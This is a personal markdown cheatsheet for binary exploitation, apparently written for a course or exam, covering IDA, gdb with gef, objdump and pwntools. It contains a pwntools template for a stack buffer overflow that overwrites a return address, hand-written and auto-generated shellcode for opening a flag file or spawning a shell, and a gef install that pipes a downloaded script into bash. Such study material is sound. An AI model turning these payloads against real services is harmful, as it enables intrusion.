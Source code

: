 # Cheatsheet binary exploitation

## IDA: reverse engineering and binary analysis
- install IDA Free 9.0 (https://hex-rays.com/ida-free) in /opt/ida-free-pc-9.0
- add destop icon via /home/timniklas/.local/share/applications/ida.desktop
```
[Desktop Entry]
Name=IDA Free
Comment=Reverse Engineering
Exec=/opt/ida-free-pc-9.0/ida
Terminal=false
Type=Application
Icon=/opt/ida-free-pc-9.0/appico.png
StartupNotify=true
Categories=Development;
Keywords=IDA
```
### Show C-source code
- press F5


## objdump: quick peek at disassembly
- dump binary with:
```
objdump -M intel -d ./my_binary
```


## masm/nasm/yasm: assembler
- TODO: figure out, what to use


## gcc: compiler
switch to intel syntax, add:
```
.intel_syntax noprefix
```


## gdb + gef: Debugging and Dynamic Analysis
- install gdb + gef
```
sudo apt install gdb
bash -c "$(wget https://gef.blah.cat/sh -O -)"
```

- get docs: https://hugsy.github.io/gef/commands/pie/


## strace: trace system calls
- todo


## python + pwntools: Exploit writing
- doc: https://docs.pwntools.com/en/latest/intro.html
- install pwntools (4.13.1) via pip
```
pip install pwntools
```
- use checksec to find out which security features binary has
```
checksec --file=my_binary
```
- basic usage
```python
import pwn

# set architecture
pwn.context.arch = 'amd64'

#conn = pwn.binary('./my_binary')
conn = pwn.remote('127.0.0.1', 1024)

# receive bytes until
conn.recvuntil(b'print:')

# we want to write the address 0x00000000004011c0 into memory
# we start by filling buffer with dummy values 'A' and finish with newline '\n'
# addresses are stored in little endien (that means 0xCAFE is stored as 0xFE 0xCA)
# that means the address 0x00000000004011c0 must be transmitted as 0xc011400000000000
message = b'A' * 56 + b'\xc0\x11\x40\x00\x00\x00\x00\x00\n'
# if we do not want to worry about endienness, we can do Pack the 64-bit integer:
message = b'A' * 56 + pwn.p64(0x4011c0) + b'\n'

# write shellcode by hand
shellcode = pwn.asm('''
    lea rdi, [rip + string]
    mov rsi, 0
    mov rdx, 0
    mox rax, 2
    syscall

string:
''') + b'\\flag'
print(shellcode.hex())

# get automatic shellcode (don't do this, do manually as this won't work in exam)
shellcode = pwn.asm(pwn.shellcraft.sh())

# send bytes
conn.send(message)

# start interactive session
conn.interactive()
```


## netcat: connect to instance
- connect to server on port
```
nc 127.0.0.1 1024
```


## manpage: get info about libc and syscalls
- get information about libc
```
man 3 gets
```
- get information about syscalls: https://syscalls.mebeim.net/?table=x86/64/x64/latest
```
man 2 open
```

## Registers
- restore: rbx, rbp, r12, r13, r14, r15, rsp
- change: rax, rcx, rdx, rsi, rdi, r8, r9, r10, r11

## x86 (amd64) instruction set
- https://treeniks.github.io/x86-64-simplified/prefix.html